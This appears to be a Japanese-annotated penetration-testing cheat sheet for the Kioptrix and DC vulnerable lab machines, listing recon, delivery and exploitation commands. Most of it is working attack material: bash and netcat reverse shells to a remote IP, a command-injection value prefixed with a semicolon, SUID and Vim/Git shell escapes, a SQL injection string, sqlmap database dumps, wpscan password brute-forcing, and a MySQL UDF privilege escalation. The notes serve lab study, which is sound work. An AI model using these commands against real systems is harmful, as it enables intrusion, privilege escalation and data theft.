 🐻 Kioptrix#1/#2/#3/#4 DC-1

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

SSH／認証鍵使わずに接続

     ssh -o PubkeyAuthentication=no user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

    ' or 1=1--

[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le

 1. どのようなユーザが存在するか？
 2. 権限昇格を狙えるものはあるか？
 3. SUID／SGID(実行ファイル所有者権限実行)が存在しないか？
 4. 自ユーザで書き込める・アクセスできるものは何か？


wpscan

   wpscan -e u --url http://dc-2/ 
   wpscan --url http://dc-2/ -U ./ulist -P ./plist


[CeWL: Custom Word List Generator](https://github.com/digininja/CeWL)

    bundle install --path vendor/bundle
    bundle exec ./cewl.rb http://XXX/ -w passlist


## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash')  #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/bash")'
    ruby -e 'exec "/bin/bash"'
    find /etc/passwd -exec /bin/sh \;  #SUID


[bashリバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999

    ;bash -i >& /dev/tcp/ip/9999 0>&1
    nc ip 9999 -e /bin/bash

[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

[MySQL Root to System Root](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');

Bash

    echo $PATH
    export PATH=$PATH:/usr/bin

    sudo -l

Vi/Vim

    :set shell=/bin/bash
    :shell

Git

    git -p --help  #意図的にページャを開く
    !/bin/sh


